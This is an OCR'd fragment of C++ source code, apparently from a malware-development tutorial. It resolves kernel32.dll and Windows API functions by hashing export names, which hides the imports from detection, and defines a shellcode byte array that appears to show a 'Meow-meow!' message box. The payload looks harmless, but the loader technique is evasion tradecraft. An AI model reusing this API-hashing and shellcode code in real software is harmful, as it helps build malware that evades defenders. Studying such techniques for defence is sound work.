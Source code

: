 ```cpp
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)(
    (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + 
    img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
    (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
```